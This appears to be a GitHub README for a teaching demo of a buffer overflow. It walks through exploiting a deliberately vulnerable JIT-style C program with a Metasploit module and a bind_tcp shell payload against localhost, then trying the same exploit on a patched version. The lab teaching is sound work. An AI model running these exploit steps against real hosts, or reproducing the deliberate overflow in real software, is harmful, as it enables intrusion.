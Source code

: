 # ijit
Simple buffer overflow demo, in the style of a Just-In-Time compiled (JIT) program.

Install metasploit and then check out this code.  
Softlink ijit.rb into metasploit's modules.
(Don't check out directly into modules/exploits, that will make 
msfconsole hang at startup when it sees the executable git hooks!)

```
cd
git clone https://github.com/olawlor/ijit
mkdir -p ~/.msf4/modules/exploits/linux/ijit
cd ~/.msf4/modules/exploits/linux/ijit
ln -s ~/ijit/ijit.rb .
```

Now compile and run the vulnerable program (compiled here as a 32-bit x86 program):

```
cd ~/ijit
gcc -m32 ijit.c -o ./ijit32 
nc -l -p 8888 | ./ijit32
```

Leave the vulnerable program running.

In another terminal, exploit it with msfconsole:

```
msfconsole
use exploit/linux/ijit/ijit 
reload
set RHOST 127.0.0.1
set nop x86/single_byte
set payload linux/x86/shell/bind_tcp
exploit
```
Here ends the successful exploitation
```
softlink ijit.rb into metasploit's modules.
(Don't check out directly into modules/exploits, that will make 
msfconsole hang at startup when it sees the executable git hooks!)

```
cd
cd ~/.msf4/modules/exploits/linux/ijit
ln -s ~/ijit/ijit_mitigate.rb .
```

Now compile and run the updated program (compiled here as a 32-bit x86 program):

```
cd ~/ijit
gcc -m32 ijit_safe.c -o ./ijit_safe 
nc -l -p 8888 | ./ijit_safe
```
Leave the updated program running.

In another terminal, exploit it with msfconsole:

```
msfconsole
reload_all
use exploit/linux/ijit/ijit_mitigate
set RHOST 127.0.0.1
set nop x86/single_byte
set payload linux/x86/shell/bind_tcp
exploit
```
